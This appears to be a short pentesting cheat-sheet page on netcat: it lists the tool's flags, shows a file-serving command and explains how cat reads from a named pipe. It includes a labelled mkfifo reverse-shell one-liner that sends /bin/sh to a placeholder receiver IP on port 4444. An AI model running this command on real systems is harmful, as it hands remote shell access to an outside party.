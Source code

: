 # Netcat

```text
-n numeric IP-address only (skip DNS name resolution)
-v verbose
-l listening
-p port
-u UDP
-c, --sh-exec <command> Executes the given command via /bin/sh
-e, --exec <command> Executes the given command
-q0 quit after 0 seconds
```

When you use the `-q0` flag, `netcat` will close the connection as soon it detects the end of your file.

```text
nc -q0 -l -p 4444 < file.txt
```

Send Reverse Shell with `mkfifo`

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc <receiver_ip> 4444 > /tmp/f
```

{% embed url="https://unix.stackexchange.com/questions/139490/continuous-reading-from-named-pipe-cat-or-tail-f" %}

* `cat` keeps reading until it gets `EOF`. 
* A pipe produces `EOF` on the output only when it gets `EOF` on the input. 
* The logging daemon is opening the file, writing to it, and keeping it open — just like it does for a regular file — so `EOF` is never generated on the output. 
* `cat` just keeps reading, blocking whenever it exhausts what's currently in the pipe.



